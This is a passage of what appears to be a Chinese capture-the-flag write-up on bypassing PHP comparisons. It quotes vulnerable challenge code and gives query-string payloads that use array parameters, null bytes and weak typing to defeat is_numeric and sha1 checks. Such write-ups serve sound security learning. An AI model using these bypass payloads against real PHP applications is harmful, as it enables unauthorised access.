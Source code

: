 ![Image.png](https://i.loli.net/2019/05/02/5ccadcbf79639.png)

1.数组绕过
    payload:?password[]=@
2.截断
    payload:?password[]=%00
### 弱类型整数大小比较绕过
源码
```
<?php
$temp = $_GET['password'];
is_numeric($temp)?die("no numeric"):NULL;
if($temp>1336){
echo $flag;
?>
```
一眼看出矛盾
给传入的password套上了单引号，为字符串
下面又判断是否为数字，是的话要大于1336才输出flag
这里明显就矛盾了。

尝试数组直接绕过处理
payload:password[]=1

### sha()函数比较绕过
```
<?php
$flag = "flag";
if (isset($_GET['name']) and isset($_GET['password']))
{
var_dump($_GET['name']);
echo "";
var_dump($_GET['password']);
var_dump(sha1($_GET['name']));
var_dump(sha1($_GET['password']));
if ($_GET['name'] == $_GET['password'])
echo 'Your password can not be your name!';
else if (sha1($_GET['name']) === sha1($_GET['password']))
die('Flag: '.$flag);
else
echo 'Invalid password.';
}
else
echo 'Login first!';
?>
```
再次供上代码
sha1再次用数组绕过

payload:?name[]=1&password[]=2

### md5加密相等绕过
